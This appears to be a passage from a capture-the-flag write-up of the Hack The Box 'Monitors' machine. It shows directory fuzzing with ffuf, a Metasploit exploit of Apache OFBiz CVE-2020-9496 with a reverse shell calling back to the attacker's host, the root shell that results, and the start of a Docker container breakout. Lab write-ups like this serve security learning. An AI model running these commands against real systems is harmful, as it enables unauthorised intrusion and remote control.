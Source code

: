 [root:/opt/scanners/linux]# ffuf -c -w /usr/share/wordlists/dirb/common.txt -u https://127.0.0.1:8443/FUZZ
  accounting              [Status: 302, Size: 0, Words: 1, Lines: 1]
  ap                      [Status: 302, Size: 0, Words: 1, Lines: 1]
  ar                      [Status: 302, Size: 0, Words: 1, Lines: 1]
  catalog                 [Status: 302, Size: 0, Words: 1, Lines: 1]
  common                  [Status: 302, Size: 0, Words: 1, Lines: 1]
  content                 [Status: 302, Size: 0, Words: 1, Lines: 1]
  ebay                    [Status: 302, Size: 0, Words: 1, Lines: 1]
  ecommerce               [Status: 302, Size: 0, Words: 1, Lines: 1]
  example                 [Status: 302, Size: 0, Words: 1, Lines: 1]
  images                  [Status: 302, Size: 0, Words: 1, Lines: 1]
  marketing               [Status: 302, Size: 0, Words: 1, Lines: 1]
  passport                [Status: 302, Size: 0, Words: 1, Lines: 1]

Trying https://127.0.0.1:8443/accounting forwards us to a login prompt for OFBiz release 17.12.01.
Googling about OFBiz 17.12.01 we find that there are a deserialization vuln leading to RCE (CVE-2020-9496), and there's even
a metasploit module for it.

  [root:/git/htb/monitors]# msfdb run
    msf6 > use exploit/linux/http/apache_ofbiz_deserialization
    msf6 exploit(linux/http/apache_ofbiz_deserialization) > set rhosts 127.0.0.1
    msf6 exploit(linux/http/apache_ofbiz_deserialization) > set lhost 10.10.14.12
    msf6 exploit(linux/http/apache_ofbiz_deserialization) > set forceexploit true
    msf6 exploit(linux/http/apache_ofbiz_deserialization) > set payload linux/x64/shell/reverse_tcp   (original meterpreter is slow)
    msf6 exploit(linux/http/apache_ofbiz_deserialization) > run
    ..
    [*] Command shell session 2 opened (10.10.14.12:8443 -> 10.10.10.238:56372) at 2021-05-10 16:16:18 +0200
    [*] Server stopped.

    id
      uid=0(root) gid=0(root) groups=0(root)
    hostname
      b19c764b5ef0
    python -c 'import pty;pty.spawn("/bin/bash")'
    root@b19c764b5ef0:/usr/src/apache-ofbiz-17.12.01#
    root@b19c764b5ef0:/usr/src/apache-ofbiz-17.12.01# ip a
      5: eth0@if6: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc noqueue state UP group default
          link/ether 02:42:ac:11:00:02 brd ff:ff:ff:ff:ff:ff link-netnsid 0
          inet 172.17.0.2/16 brd 172.17.255.255 scope global eth0
             valid_lft forever preferred_lft forever


3. We're now connected to the container host (172.17.0.2). I would assume that the task here is to break out of the docker container
in order to get root.txt. After some googling I found a blogpost from pentesteracademy.com where they take a step by step tutorial
for breaking out by abusing SYS_MODULE.

Start by checking the capabilities provided to the docker container:
